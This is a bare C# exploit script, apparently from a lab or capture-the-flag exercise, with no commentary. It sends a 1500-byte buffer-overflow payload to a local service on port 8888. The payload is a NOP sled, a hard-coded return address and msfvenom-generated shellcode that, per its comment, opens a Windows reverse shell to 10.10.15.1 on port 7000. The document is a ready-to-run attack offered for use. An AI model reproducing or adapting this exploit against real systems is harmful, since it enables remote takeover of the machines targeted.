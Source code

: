 ```csharp
using System;
using System.IO;
using System.Net.Sockets; 
using System.Linq;

namespace a {
    class b {
        static void Main(string[] args) {
            TcpClient client = new TcpClient("127.0.0.1", 8888);
            NetworkStream stream = client.GetStream();
            MemoryStream ms = new MemoryStream();
            
            ms.Write(Enumerable.Repeat((byte)0x90, 1052).ToArray(), 0, 1052);
            ms.Write(new byte[]{0xB5,0x42,0xA8,0x68}, 0, 4);
            ms.Write(Enumerable.Repeat((byte)0x90, 30).ToArray(), 0, 30);
            // msfvenom -p windows/shell/reverse_tcp LHOST=10.10.15.1 LPORT=7000 -b '\x00\x0a\x0d' -f csharp
            byte[] buf = {
            0xb8,0x90,0xfd,0x9d,0x7e,0xda,0xcb,0xd9,0x74,0x24,0xf4,0x5d,0x31,0xc9,0xb1,
            0x56,0x31,0x45,0x13,0x83,0xc5,0x04,0x03,0x45,0x9f,0x1f,0x68,0x82,0x77,0x5d,
            0x93,0x7b,0x87,0x02,0x1d,0x9e,0xb6,0x02,0x79,0xea,0xe8,0xb2,0x09,0xbe,0x04,
            0x38,0x5f,0x2b,0x9f,0x4c,0x48,0x5c,0x28,0xfa,0xae,0x53,0xa9,0x57,0x92,0xf2,
            0x29,0xaa,0xc7,0xd4,0x10,0x65,0x1a,0x14,0x55,0x98,0xd7,0x44,0x0e,0xd6,0x4a,
            0x79,0x3b,0xa2,0x56,0xf2,0x77,0x22,0xdf,0xe7,0xcf,0x45,0xce,0xb9,0x44,0x1c,
            0xd0,0x38,0x89,0x14,0x59,0x23,0xce,0x11,0x13,0xd8,0x24,0xed,0xa2,0x08,0x75,
            0x0e,0x08,0x75,0xba,0xfd,0x50,0xb1,0x7c,0x1e,0x27,0xcb,0x7f,0xa3,0x30,0x08,
            0x02,0x7f,0xb4,0x8b,0xa4,0xf4,0x6e,0x70,0x55,0xd8,0xe9,0xf3,0x59,0x95,0x7e,
            0x5b,0x7d,0x28,0x52,0xd7,0x79,0xa1,0x55,0x38,0x08,0xf1,0x71,0x9c,0x51,0xa1,
            0x18,0x85,0x3f,0x04,0x24,0xd5,0xe0,0xf9,0x80,0x9d,0x0c,0xed,0xb8,0xff,0x58,
            0xc2,0xf0,0xff,0x98,0x4c,0x82,0x8c,0xaa,0xd3,0x38,0x1b,0x86,0x9c,0xe6,0xdc,
            0x9f,0x8b,0x18,0x32,0x27,0xdb,0xe6,0xb3,0x57,0xf5,0x2c,0xe7,0x07,0x6d,0x84,
            0x88,0xcc,0x6d,0x29,0x5d,0x78,0x64,0xbd,0x54,0x76,0x77,0x3c,0x01,0x84,0x87,
            0x25,0x89,0x01,0x61,0x09,0x79,0x41,0x3e,0xea,0x29,0x21,0xee,0x82,0x23,0xae,
            0xd1,0xb3,0x4b,0x65,0x7a,0x59,0xa4,0xd3,0xd2,0xf6,0x5d,0x7e,0xa8,0x67,0xa1,
            0x55,0xd4,0xa8,0x29,0x5f,0x28,0x66,0xda,0x2a,0x3a,0x9f,0xbd,0xd4,0xc2,0x60,
            0x28,0xd4,0xa8,0x64,0xfa,0x83,0x44,0x67,0xdb,0xe3,0xca,0x98,0x0e,0x70,0x0c,
            0x66,0xcf,0x40,0x66,0x51,0x45,0xec,0x10,0x9e,0x89,0xec,0xe0,0xc8,0xc3,0xec,
            0x88,0xac,0xb7,0xbf,0xad,0xb2,0x6d,0xac,0x7d,0x27,0x8e,0x84,0xd2,0xe0,0xe6,
            0x2a,0x0c,0xc6,0xa8,0xd5,0x7b,0x54,0xae,0x29,0xf9,0x73,0x17,0x41,0x01,0xc4,
            0xa7,0x91,0x6b,0xc4,0xf7,0xf9,0x60,0xeb,0xf8,0xc9,0x89,0x26,0x51,0x41,0x03,
            0xa7,0x13,0xf0,0x14,0xe2,0xf2,0xac,0x15,0x01,0x2f,0x5f,0x6f,0x6a,0xd0,0xa0,
            0x90,0x62,0xb5,0xa1,0x90,0x8a,0xcb,0x9e,0x46,0xb3,0xb9,0xe1,0x5a,0x80,0xb2,
            0x54,0xfe,0xa1,0x58,0x96,0xac,0xb2,0x48 };
            ms.Write(buf, 0, buf.Length);
            int payload_length = 1500-(int)ms.Length;
            ms.Write(Enumerable.Repeat((byte)0x63, payload_length).ToArray(), 0, payload_length);
            byte[] payload = ms.ToArray();
            stream.Write(payload, 0, payload.Length);
        }
    }
}
```

